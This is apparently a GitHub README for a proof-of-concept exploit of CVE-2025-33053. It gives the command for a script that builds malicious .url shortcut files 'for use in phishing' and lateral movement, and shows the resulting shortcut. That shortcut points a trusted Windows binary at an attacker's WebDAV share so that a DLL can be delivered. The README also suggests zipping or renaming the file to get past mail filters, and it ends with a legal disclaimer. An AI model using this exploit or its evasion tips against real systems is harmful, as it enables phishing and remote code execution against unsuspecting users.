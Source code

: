 # CVE-2025-33053 Proof Of Concept

This repository provides scripts to **automatically deploy a WebDAV server on Ubuntu using Apache2**, and generate **malicious `.url` shortcut files** for use in phishing, red teaming, or lateral movement simulation.

## Generating a Malicious `.url` Shortcut

### Example usage:

```bash
python3 gen_url.py --ip 192.168.1.100 --out doc.url
```

### All Options:

```bash
python3 gen_url.py \
  --ip 《YOUR IP ADDRESS》\
  --share 《YOUR SHARE NAME》(Default: webdav) \
  --out 《YOUR OUTPUT FILENAME.url》(Default: bait.url) \
  --exe "C:\Program Files\Internet Explorer\iediagcmd.exe" \
  --icon "C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge.exe" \
  --index 13 \
  --modified 20F06BA06D07BD014D
```

This will create a `.url` file like:

```ini
[InternetShortcut]
URL=C:\Program Files\Internet Explorer\iediagcmd.exe
WorkingDirectory=\\192.168.1.100\webdav\
ShowCommand=7
IconIndex=13
IconFile=C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
Modified=20F06BA06D07BD014D
```

> Clicking this file (in certain configurations) may cause the target system to auto-connect to your WebDAV server (authentication or DLL delivery).

---

## 🔒 Notes for Security Testing

- **Disable Firewall (or open port 80)** if testing on a local network:
  ```bash
  sudo ufw allow 80
  ```
- `.url` files may not execute as expected depending on:
  - Group Policy restrictions
  - Application defaults
  - Email client (Gmail may sanitize them)
- You may need to zip or rename `.url` to `.txt` to bypass filters.

---

## ⚠️ Legal Disclaimer

This repository is for **educational and authorized penetration testing only**.  
**Do not use** these scripts against systems you do not own or have permission to test.

